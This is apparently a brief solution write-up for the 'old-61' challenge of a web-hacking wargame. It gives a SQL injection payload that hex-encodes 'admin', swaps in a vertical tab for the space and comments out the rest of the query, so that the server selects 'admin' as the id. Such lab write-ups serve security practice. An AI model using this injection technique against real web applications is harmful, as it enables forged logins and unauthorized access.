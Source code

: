 ```yaml
---
layout: default
title: old-61
---
```


# Webhacking old-61 Solution

this is the payload we will send:
`0x61646D696E%0bid#`

this is equivalent to:
`'admin' id#`

we don't need to use 'as', so what the query do is like that:
`select 'admin' as id #`
